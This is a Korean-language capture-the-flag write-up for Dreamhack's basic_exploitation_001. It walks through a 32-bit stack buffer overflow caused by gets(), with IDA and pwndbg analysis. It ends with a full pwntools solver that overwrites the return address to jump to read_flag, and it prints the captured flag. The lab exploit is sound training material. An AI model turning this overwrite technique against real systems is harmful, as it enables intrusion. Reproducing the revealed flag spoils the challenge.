

# Dreamhack: basic_exploitation_001 Write-up

## 1. Problem Overview
- **Category:** Pwnable
- **Difficulty:** Level 1
- **Tool:** IDA Free, VS Code (Python), Pwndbg
- **Description:** Return 주소를 조작해 flag 파일을 read하는문제 (RET Overwrite)

## 2. Static Analysis (정적 분석)

gets("%s", buf)와 같이 입력 길이를 제한하지 않는 함수에서 Stack Buffer Overflow가 발생함을 확인했습니다.
```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[128]; // [esp+0h] [ebp-80h] BYREF

  initialize();
  gets(s);
  return 0;
}
```

프로그램 내에 직접적으로 플래그를 출력해 주는 함수(read_flag)의 주소를 pwndbg에서 추출했습니다.
```bash
pwndbg> info address read_flag
Symbol "read_flag" is at 0x80485b9 in a file compiled without debugging.
```

main합수의 Stack Frame입니다.
```assembly
-0000000000000080     char s[128];
+0000000000000000     _DWORD __saved_registers;
+0000000000000004     _UNKNOWN *__return_address;
+0000000000000008     int argc;
+000000000000000C     const char **argv;
+0000000000000010     const char **envp;
```
- buf의 크기가 0x80 (128바이트)
- 32비트 환경이므로 스택 구조는 [buf] (128) + [SFP] (4) + [RET] (4) 순으로 구성됨.

## 3. Solution & Dynamic Analysis (동적 분석)

### RET Overwrite

함수가 종료될 때 EIP가 다음에 실행할 주소를 스택의 RET 영역에서 가져온다는 점을 이용합니다.

- 공식 (32비트 기준): Payload = Dummy Data (buf_size + SFP) + Target_Address Payload = b"A" * (buf_size + 4) + p32(target_address)
- 공식 (64비트 기준): Payload = Dummy Data (buf_size + SFP) + Target_Address Payload = b"A" * (buf_size + 8) + p64(target_address)

### Dynamic Analysis
- 보호 기법 확인 (checksec)
본격적인 공격에 앞서 바이너리에 적용된 보안 메커니즘을 확인합니다.



데이터 입력 시 스택의 무결성을 검증하는 카나리 값이 없으므로 버퍼를 넘쳐 리턴 어드레스(RET)를 직접 수정하는 Stack Buffer Overflow 공격이 가능합니다.

또한 PIE가 비활성화되어 있어 IDA에서 확인한 함수의 절대 주소를 그대로 사용할 수 있습니다.

- 스택 오버라이트 확인 (pwndbg)
작성한 페이로드가 실제 메모리에 의도한 대로 들어갔는지 gdb를 통해 검증합니다. ret에 중단점을 설정하고 실행한 결과입니다.

```bash
pwndbg> tele $esp 20
00:0000│ esp 0xffffce3c —▸ 0x80485b9 (read_flag) ◂— push ebp
01:0004│     0xffffce40 ◂— 0
```
tele $esp 20 명령어로 확인한 결과 RET 영역이 목표 주소인 0x80485b9(read_flag)로 정확히 덮였으며, 이로 인해 ret 명령어 실행 시 EIP가 조작되어 프로그램이 플래그 출력 루틴으로 강제 점프하게 됩니다.

### Full Solver Code
```python
from pwn import *

# 1. 환경 설정 (32비트 i386)
context.arch = 'i386'
# p = process('./basic_exploitation_001') # 로컬 테스트
p = remote('host3.dreamhack.games', 16904) # 원격 서버

# 2. 분석을 통해 얻은 정보
target_addr = 0x80485b9  # flag를 출력해주는 함수의 주소
buf_to_sfp = 0x80        # 128바이트
sfp_size = 4             # 32비트이므로 4바이트

# 3. 페이로드 구성
# buf(128) + sfp(4)를 'A'로 채우고 그 뒤에 바로 타겟 주소 연결
payload = b'A' * (buf_to_sfp + sfp_size)
payload += p32(target_addr)

# 4. 공격 실행
p.sendline(payload)
p.interactive()
```

## 4. Results
```bash
dreamhack@dongyeon:/mnt/f/dreamhack$ python3 t.py 
[+] Opening connection to host3.dreamhack.games on port 16904: Done
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xb9\x85\x04\x08'
[*] Switching to interactive mode
DH{01ec06f5e1466e44f86a79444a7cd116}[*] Got EOF while reading in interactive
```

## 5. Thoughts
정적 분석으로 얻은 오프셋과 목표주소가 동적 분석(Pwndbg)을 통해 
실제 메모리상에서 RET를 정확히 덮는 것을 확인했을 때 이게 pwnable이구나 느꼈습니다.


